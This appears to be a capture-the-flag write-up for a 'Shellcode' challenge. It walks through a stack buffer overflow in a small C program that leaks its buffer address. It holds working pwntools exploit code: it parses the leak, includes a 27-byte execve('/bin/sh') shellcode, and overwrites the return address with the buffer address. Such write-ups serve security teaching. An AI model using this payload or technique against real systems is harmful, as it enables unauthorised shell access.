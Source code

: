 # Shellcode

From the title, we know that this is testing on the method of using Shellcode.

  ```C
  #include<stdio.h>

  int main(){
      setvbuf(stdout,0,2,0);

      char buf[100];
      printf( "Your input buffer address is %p\n" , buf );

      read( 0 , buf , 0x80 );

      return 0;
  }

  ```
  
As we can see from `shellcode.c`, we are able know the input buffer address and the overflow point of `buf[100]` , which is `read( 0 , buf , 0x80 )`
  
From the code, we have the idea: 
  
  1. Obtain the input buffer address
  2. Read in our shellcode
  3. Overwrite return address to buffer address to execute our shellcode
  
So, first step, to obtain input buffer address:

  ```python
  l = p.recvline()
  addr = int(l.decode('utf-8').split("0x")[1].rstrip(), 16)
   ```
Next, generate a shellcode(27 bytes) for `excve("/bin/sh\0,null,null")`.  (I got mine from [shell-storm](http://shell-storm.org/shellcode/)):

  ```python
  sh = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
  ```
  
And calculate our padding:

    400649:	48 8d 45 90          	lea    -0x70(%rbp),%rax
    40064d:	ba 80 00 00 00       	mov    $0x80,%edx
    400652:	48 89 c6             	mov    %rax,%rsi
    400655:	bf 00 00 00 00       	mov    $0x0,%edi
    40065a:	b8 00 00 00 00       	mov    $0x0,%eax
    40065f:	e8 7c fe ff ff       	callq  4004e0 <read@plt>
    
We can see we read to `rbp - 0x70` so our total padding will be 0x78 bytes. Thus, our padding will be 0x78 - 0x1b (27) = 0x5d
  
Third, which will be our final payload, with a padding of:

  ```python
  p.sendline( b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + b"\x90"*0x5d + p64(addr))
  ```
  
